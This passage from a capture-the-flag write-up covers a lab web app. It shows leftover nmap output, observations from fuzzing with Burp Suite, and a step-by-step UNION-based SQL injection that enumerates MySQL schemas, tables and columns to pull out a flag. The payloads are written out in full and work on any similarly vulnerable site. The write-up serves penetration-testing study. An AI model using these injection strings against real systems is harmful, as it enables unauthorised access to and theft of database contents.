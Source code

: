 ```
1   63.08 ms 10.10.14.1
2   63.24 ms 10.129.202.139

NSE: Script Post-scanning.
Initiating NSE at 19:26
Completed NSE at 19:26, 0.00s elapsed
Initiating NSE at 19:26
Completed NSE at 19:26, 0.00s elapsed
Initiating NSE at 19:26
Completed NSE at 19:26, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.94 seconds
           Raw packets sent: 131215 (5.777MB) | Rcvd: 251 (19.772KB)
```

Well, that’s less than helpful; we already knew that there was a web server running on port 80 (and there’s nothing else).

Okay, let’s try fuzzing the two pages with Burp Suite and see what we get! Interesting observations...

- `/index.php` 
	1. Submitting hexadecimal numbers for `player` (for example, 0x0 or 0xabad1dea) result in only the *first* half of the normal response, without any HTML or the `/challenge.php` link.
	2. You can insert any HTML you’d like, and it gets rendered back in the page.
	3. Inputs always seem to be lower-cased before they’re returned.
	4. `' OR 1=1 -- 1` and `' OR '1'='1` are *also* missing the second half of the response, like the 0x numbers. So maybe we have [SQL injection](../Notes/SQL%20Injection.md)?
- `/challenge.php` returns nothing interesting...

(I really need a more targeted fuzzing list than the “big list of naughty strings”, as the free version of Burp Suite throttles Intruder so much that this list takes over 30 minutes to process!)

(Also, be sure to look at the response in **Raw** mode to avoid going down bunny trails about formatting changes that ​*don’t actually exist in the server response*​!)

Okay, so not many clues at this point. SQL injection *might* be a thing, but the behavior with hexadecimal numbers is... Odd.

> So, here I’m going to “cheat” a bit. I know from the discussion on Discord that SQL injection *is* a thing for this box, and is, in fact, how you get the first flag. So even though my evidence at this point is circumstantial/weak, I’m going to go that route.

Since `' OR 1=1 -- 1` gave us something interesting, let’s send `/index.php` to Repeater and see what some other values for `player` do for us...

1. `' UNION SELECT '>>>STUFF<<<' -- 1` returns `>>>STUFF<<<` for the user name!
2. `' UNION SELECT @@datadir -- 1` returns `/var/lib/mysql` , so we’re dealing with MySQL.
3. `' UNION SELECT schema_name FROM information_schema.schemata -- 1` returns `mysql` ... Which isn’t right. It looks like only a single row (probably the last one, given that we only see one row with `UNION` ) is returned.
4. `' UNION SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0 -- 1` also returns `mysql` ... But using `OFFSET 1` returns `information_schema` , so I guess we’ll just do it this way. Iterating, we also see databases called `performance_schema` , `sys` , and `november` . All of these are standard MySQL databases except for `november` .
5. `' UNION SELECT database() -- 1` confirms that we’re in the `november` database.
6. `' UNION SELECT table_name FROM information_schema.tables WHERE table_schema != 'november' LIMIT 1 OFFSET 0 -- 1` returns `flag` , and iterating reveals a second table `players` . There doesn’t seem to be anything else. The `flag` table looks promising, so let’s see what’s there.
7. `' UNION SELECT column_name FROM information_schema.columns WHERE table_schema = 'november' and table_name = 'flag' LIMIT 1 OFFSET 0 -- 1` (and iterating) reveals that there’s a single column called `one` .
8. `' UNION SELECT COUNT(*) FROM flag -- 1` reveals that there’s only a single row in `flag` . Easy!
9. `' UNION SELECT one FROM flag -- 1` then provides a “flag” value.